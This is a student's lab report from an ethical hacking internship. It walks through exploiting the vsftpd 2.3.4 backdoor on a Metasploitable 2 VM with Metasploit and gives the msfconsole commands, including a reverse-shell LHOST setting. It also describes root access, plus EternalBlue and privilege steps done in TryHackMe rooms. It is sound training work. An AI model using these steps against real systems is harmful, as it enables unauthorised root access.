





# Week 6, Task 1 — Metasploit: Exploit a Vulnerable Machine

  
  
  

**Internship:** Ethical Hacking Internship, TechBiz Academy  
**Author:** Collins Okike  
**Attacker:** Kali Linux (10.0.0.3)  
**Target:** Metasploitable 2 (10.0.0.6)  
**Vulnerability:** vsftpd 2.3.4 backdoor (CVE-2011-2523)

## 1. Introduction

For this task, I used the Metasploit Framework to exploit a known vulnerable service on my Metasploitable 2 lab machine. I searched for a module that matched the installed service, checked the options it required, configured the target and my Kali address, and ran the exploit. After it opened a session, I entered the system shell and used whoami and id to confirm what level of access I had gained.

The main workflow I practised was search, use, show options, set and exploit. I also completed the TryHackMe Metasploit: Introduction room and the Blue box.

## 2. Objectives

- Learn the basic Metasploit Framework workflow.
- Search for an exploit that matches a vulnerable service on Metasploitable 2.
- Configure the required options, including RHOSTS and LHOST.
- Run the exploit and check whether Metasploit opens a session.
- Confirm the access level using whoami and id from the system shell.
- Complete the related TryHackMe rooms and record what I learned.

## 3. Lab Setup

| Component | Details |
|---|---|
| Attacker machine | Kali Linux — 10.0.0.3 |
| Target machine | Metasploitable 2 — 10.0.0.6 |
| Network | VirtualBox NAT Network (NatNetwork) |
| Tool | Metasploit Framework (msfconsole) |
| Vulnerability | vsftpd 2.3.4 backdoor (CVE-2011-2523) on FTP port 21 |
| Exploit module | exploit/unix/ftp/vsftpd_234_backdoor |

## 4. Key Terms I Used

| Term | What I understood |
|---|---|
| Metasploit Framework | A penetration-testing framework that packages exploit, payload and auxiliary modules. |
| msfconsole | The command-line interface I used to search for and run modules. |
| Exploit | Code that takes advantage of a vulnerability in a service to gain access. |
| Payload | Code that runs on the target after the exploit succeeds, such as a command shell or Meterpreter session. |
| RHOSTS | The target IP address for the module. |
| LHOST | The address of my attacking machine that the target connects back to when a reverse connection is used. |
| Session | The active connection Metasploit opens after a successful exploit. |

## 5. How the Metasploit Workflow Works

The workflow I followed was to search for a module by service or vulnerability, load it with use, inspect what it needs with show options, set the required values and then run exploit. If the exploit succeeds, Metasploit opens a session that I can interact with. The steps are consistent across different modules, even though each exploit can need different options.

## 6. Step 1 — Starting msfconsole and Searching for an Exploit

I opened Metasploit on Kali and searched for a module matching the vsftpd service on Metasploitable 2:

~~~bash
msfconsole
search vsftpd
~~~

The results included exploit/unix/ftp/vsftpd_234_backdoor, described as **VSFTPD 2.3.4 Backdoor Command Execution** with an excellent rank. It showed Linux/Unix Command and Backdoor Command Shell as targets.

The module matched the exact vsftpd version running on Metasploitable 2, which I had already identified during my Nmap scan in Week 3. This made it the module I chose for the practical.

## 7. Step 2 — Configuring and Running the Exploit

I loaded the module, checked its options and set the target address. My first attempt failed because I had not set LHOST. This module uses a reverse connection, so it also needed my Kali address.

~~~text
use exploit/unix/ftp/vsftpd_234_backdoor
show options
set RHOSTS 10.0.0.6
set LHOST 10.0.0.3
exploit
~~~

**What happened:** The first run returned **One or more options failed to validate: LHOST**. After I set LHOST to 10.0.0.3, Metasploit started the reverse TCP handler on 10.0.0.3:4444. The FTP banner identified vsftpd 2.3.4, the backdoor was spawned, and Metasploit opened Meterpreter session 1 from 10.0.0.3:4444 to 10.0.0.6:38117.

This confirmed that the exploit opened a live session against the target and gave me code execution through the vsftpd backdoor.

## 8. Step 3 — Confirming Access

I wanted to confirm that the session gave me a real shell and check the account level. At first, whoami and id did not work directly at the Meterpreter prompt because they are system-shell commands. I used shell first, then ran the commands:

~~~text
shell
whoami
id
~~~

whoami returned root, and id returned uid=0(root) gid=0(root). This showed that I had a working shell as root, with no separate privilege-escalation step needed.

## 9. TryHackMe Rooms

### 9.1 Metasploit: Introduction (Compulsory)

I completed the TryHackMe Metasploit: Introduction room. It covered searching for a module, loading it, checking and setting its options, choosing a payload, and running the exploit. I also learned the difference between a vulnerability, an exploit and a payload, as well as the difference between inline (single) and staged payloads. I practised the workflow on the room's MS17-010 EternalBlue example, then used the same general process against the different vsftpd vulnerability in my Metasploitable 2 lab.

### 9.2 Blue (Compulsory Extra Box)

I also completed Blue. This box used the EternalBlue exploit to progress from an initial shell to a cracked password hash and three flags. I practised converting a shell to Meterpreter, running getsystem, and migrating into a process already running as SYSTEM. It helped me understand that a session's privilege level and the privilege level of a process can differ until I migrate into the right process.

## 10. Problems I Faced and How I Fixed Them

- **Exploit validation failed because LHOST was missing.** I had only set RHOSTS, so Metasploit refused to run the reverse connection. I set LHOST to my Kali IP (10.0.0.3) and ran the exploit again.
- **whoami and id were not recognised at the Meterpreter prompt.** I had to run shell first to enter the underlying system shell. Both commands then worked and showed root.

## 11. Conclusion

This task moved me from reading about Metasploit to using it from beginning to end: finding a module for a known vulnerability, configuring it, running it and confirming access with whoami and id. Repeating the exploit-to-shell process in the Blue room, this time with Windows and EternalBlue, showed me that the Metasploit workflow stays similar even when the operating system and vulnerability change. The main lesson I took from both exercises is how quickly an unpatched or deliberately vulnerable service can lead to a full shell, which is why patching and version management matter.
